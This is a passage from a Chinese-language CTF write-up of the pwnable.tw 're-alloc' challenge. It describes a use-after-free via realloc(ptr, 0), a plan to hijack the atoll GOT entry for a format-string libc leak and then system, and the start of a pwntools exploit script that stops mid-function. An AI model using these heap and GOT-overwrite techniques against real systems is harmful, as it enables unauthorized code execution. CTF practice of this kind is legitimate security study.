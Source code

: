 Free功能就是realloc(ptr, 0)，之后将指针置NULL

## 漏洞点及利用

reallocate函数中可以控制size=0来实现调用free，但是并没有将指针置NUL，存在UAF。

利用思路：

由两个可控的chunk，两个都写入atoll_got，利用UAF修改某函数的got表项为system函数地址，这个函数的参数要求能通过

由于没有show之类的函数，需要构造泄露，参考wp先利用pirntf_plt覆盖写入tcache bin的atoll，利用格式化字符串泄露栈内容获取libc基址

exp

```python
#!/usr/bin/env python3

from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./re-alloc")
	libc = ELF("./libc-realloc.so")
	io = process(elf.path)
else:
	elf = ELF("./re-alloc")
	libc = ELF("./libc-realloc.so")
	io = remote("chall.pwnable.tw",10106)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

def alloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("1")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    io.recvuntil("Data:")
    io.send(data)

def realloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("2")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    if size != 0:
        io.recvuntil("Data:")
        io.send(data)

def free(idx):
    io.recvuntil("Your choice: ")
```